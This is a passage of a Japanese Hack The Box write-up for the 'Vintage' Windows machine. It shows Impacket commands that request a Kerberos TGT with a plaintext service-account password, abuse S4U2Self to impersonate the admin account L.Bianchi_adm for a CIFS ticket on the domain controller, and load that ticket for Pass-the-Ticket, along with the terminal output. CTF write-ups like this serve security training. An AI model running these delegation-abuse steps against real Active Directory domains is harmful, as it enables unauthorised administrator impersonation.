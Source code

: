 つづいて `svc_sql` のTGTを取得します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/svc_sql:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=svc_sql.ccache 
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:svc_sql.ccache
Default principal: svc_sql@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:10:25  2025-01-13T21:10:25  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:10:25
```

S4U2Selfを使用してL.Bianchi_admのTGSを取得します。

```bash
impacket-getST -spn cifs/dc01.vintage.htb -impersonate L.Bianchi_adm vintage.htb/svc_sql:Zer0the0ne
```

![image-20250111161511375](screenshot/image-20250111161511375.png)

攻撃に成功し、`L.Bianchi_adm` のTGSチケットを取得できました。

## Pass The Ticket

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache

┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist                                                      
Ticket cache: FILE:L.Bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
Default principal: L.Bianchi_adm@vintage.htb

Valid starting       Expires              Service principal
2025-01-13T11:16:12  2025-01-13T21:16:11  cifs/dc01.vintage.htb@VINTAGE.HTB
	renew until 2025-01-14T11:16:10
```
